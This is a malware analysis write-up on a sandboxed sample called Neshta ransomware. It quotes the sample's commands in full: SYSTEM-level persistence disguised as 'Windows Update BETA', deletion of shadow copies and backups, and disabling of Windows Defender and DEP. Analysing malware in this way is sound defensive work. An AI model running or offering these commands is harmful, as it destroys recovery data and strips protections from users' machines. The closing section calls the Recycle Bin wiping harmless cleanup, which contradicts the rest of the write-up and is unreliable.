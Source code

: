 # Neshta Ransomware family

* [https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/](https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/)

## History

The ransomware Neshta was first discovered in 2007. It was designed to encrypt files on infected computer systems and demand a ransom in exchange for the decryption key. Neshta primarily spread through malicious emails, compromised software downloads, and other infection methods. Since its discovery, it has been one of many examples of ransomware that have caused disruptions and computer security issues worldwide.

## Sample Information

| Information       | Value                                         |
|-------------------|-----------------------------------------------|
| Analysis date     | December 17, 2023 at 07:20:45                 |
| OS                | Windows 10 Professional (build: 19044, 64 bit)|
| Tags              | ransomware                                    |
| File info         | PE32 executable (GUI) Intel 80386, for MS Windows |
| MD5               | BD3421CDFEA65D7037533121A4B82AEA              |
| SHA256            | 0E5C298EEA81721D30202057A8F1B6EEE18A1BFBB102248F1E862A96128097B9 |


## Setup

### Replication

The malware will create a directory in the temporary folder and copy itself into it.

"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"

![create-directory](/images/neshta/neshta-01.png)
![create-directory](/images/neshta/neshta-02.png)

### Create Task

The malware will create a task that will allow it to start with privileged rights.

![create-task](/images/neshta/neshta-create-task-01.png)

```
cmd "/c SCHTASKS.exe /Create /RU \"NT AUTHORITY\\SYSTEM\" /sc onstart /TN \"Windows Update BETA\" /TR \"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe\" /F"
```

-   `cmd "/c`: This initiates the execution of the command that follows it. `/c` tells the command prompt to execute the command and then terminate.
    
-   `SCHTASKS.exe /Create`: This command is used to create a scheduled task. `SCHTASKS` is the command-line utility for managing Windows scheduled tasks.
    
-   `/RU "NT AUTHORITY\\SYSTEM"`: This specifies the user account under which the scheduled task will run. In this case, it's set to run under the `SYSTEM` account, which has high-level privileges on the local system.
    
-   `/sc onstart`: This sets the schedule type for the task. `onstart` means the task will run each time the computer starts.
    
-   `/TN "Windows Update BETA"`: This sets the name of the task to "Windows Update BETA".
    
-   `/TR "C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"`: This is the action to be performed by the scheduled task. Here, it's set to execute a file named `Windows Servers Runtime.exe` located in a temporary folder within the Admin user's AppData directory.
    
-   `/F`: This forces the task to be created and overwrites any existing task with the same name.

![create-task](/images/neshta/neshta-create-task-02.png)

**Implications:**

-   The use of the `SYSTEM` account will allow the task to have extended privileges on the computer.
-   The executable is located in a temporary folder and not in a typical program directory, which could be suspicious.
-   It is named "Windows Update BETA" in order to remain discreet among other tasks.

### Disabling protections

The malware will execute different commands using cmd.exe.

![neshta-cmd-action](/images/neshta/neshta-cmd-action.png)

1.  **vssadmin, wbadmin, bcdedit, and wmic command**: `cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"`
    
    -   `vssadmin.exe delete shadows /all /quiet`: Deletes all system restore points (Shadow Copies) without displaying messages.
    -   `wbadmin delete catalog -quiet`: Deletes the backup catalog, which can prevent previous backups from being restored.
    -   `bcdedit.exe /set {current} nx AlwaysOff`: Disables Data Execution Prevention (DEP) for the current system, potentially making the system more vulnerable to attacks.
    -   `wmic SHADOWCOPY DELETE`: Also deletes shadow copies, another form of restore points.

2.  **Add-MpPreference command (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "`
    
    -   Adds an exclusion in Windows Defender for a specific path (replaced by `%s`), meaning files in this path will not be scanned by Windows Defender.

3.  **Remove-WindowsFeature, New-ItemProperty commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "`
    
    -   Disables and removes Windows Defender (Windows' built-in antivirus) along with its graphical interface.
    -   Modifies the registry to disable Windows Defender's antispyware feature.

4.  **Get-Service, Stop-Service, Set-Service, Set-MpPreference commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "`
    
    -   Stops the Windows Defender service (WinDefend), disables it at startup, and turns off Windows Defender's real-time monitoring.

### Clean Recycle Bin

The malware will empty the recycle bin to prevent the recovery of previously deleted data.

![create-diectory](/images/neshta/neshta-clean-recycle-bin.png)

The malware will empty the recycle bin to prevent the recovery of deleted files and will delete the scheduled task it had initially set up.

```
cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,S:\\$RECYCLE.BIN,T:\\$RECYCLE.BIN,U:\\$RECYCLE.BIN,V:\\$RECYCLE.BIN,W:\\$RECYCLE.BIN,X:\\$RECYCLE.BIN,F:\\$RECYCLE.BIN,G:\\$RECYCLE.BIN,K:\\$RECYCLE.BIN,L:\\$RECYCLE.BIN,M:\\$RECYCLE.BIN,N:\\$RECYCLE.BIN,O:\\$RECYCLE.BIN,Y:\\$RECYCLE.BIN,Z:\\$RECYCLE.BIN,A:\\$RECYCLE.BIN,B:\\$RECYCLE.BIN,C:\\$RECYCLE.BIN,D:\\$RECYCLE.BIN,E:\\$RECYCLE.BIN,H:\\$RECYCLE.BIN,I:\\$RECYCLE.BIN,J:\\$RECYCLE.BIN"

cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,S:\\Recycler,T:\\Recycler,U:\\Recycler,V:\\Recycler,W:\\Recycler,X:\\Recycler,F:\\Recycler,G:\\Recycler,K:\\Recycler,L:\\Recycler,M:\\Recycler,N:\\Recycler,O:\\Recycler,Y:\\Recycler,Z:\\Recycler,A:\\Recycler,B:\\Recycler,C:\\Recycler,D:\\Recycler,E:\\Recycler,H:\\Recycler,I:\\Recycler,J:\\Recycler"

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove -Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"

cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"
```

These commands are Windows Command Prompt and PowerShell commands used to manipulate the Recycle Bin on various drives and to manage scheduled tasks. Here's a breakdown of each command:

1.  **Deleting $RECYCLE.BIN folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,...J:\\$RECYCLE.BIN"`
    
    -   `rd /s /q`: This command recursively (`/s`) and quietly (`/q`) deletes a directory.
    -   `P:\\$RECYCLE.BIN, Q:\\$RECYCLE.BIN, ..., J:\\$RECYCLE.BIN`: These are the paths to the `$RECYCLE.BIN` folders on various drives from P: to J:.
    -   This command effectively deletes the Recycle Bin folder from each specified drive, which could be used to permanently remove files bypassing the Recycle Bin.

2.  **Deleting Recycler folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,...J:\\Recycler"`
    
    -   Similar to the first command, this one deletes the `Recycler` folder on various drives.
    -   `Recycler` is an older version of the Recycle Bin used in older versions of Windows, like Windows XP.

3.  **Deleting $RECYCLE.BIN folders using PowerShell**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"`
    
    -   This PowerShell command removes the `$RECYCLE.BIN` folders from the C: and D: drives.
    -   `-Recurse -Force`: These flags ensure that all contents within the folders are removed forcefully, including hidden or system files.

4.  **Deleting the scheduled task named "Windows Update BETA"**: `cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"`
    
    -   `SCHTASKS.exe /Delete`: This command is used to delete a scheduled task.
    -   `/TN "Windows Update BETA"`: Specifies the name of the task to be deleted.
    -   `/F`: Forces the deletion of the task without any prompts for confirmation.

**Implications:**

-   The commands for deleting the `$RECYCLE.BIN` and `Recycler` folders are often used in system cleanup or when trying to recover from a virus/malware infection that might have affected these directories.
-   Deleting the Recycle Bin folders does not harm the system, as Windows will recreate these folders when needed.
-   The deletion of the scheduled task "Windows Update BETA" is a management action, possibly undoing a previous setup or clearing an unwanted or suspicious task.

It's important to use these commands with caution, as they can lead to permanent deletion of files in the Recycle Bin. Additionally, modifying scheduled tasks should be done with an understanding of why the task was created in the first place.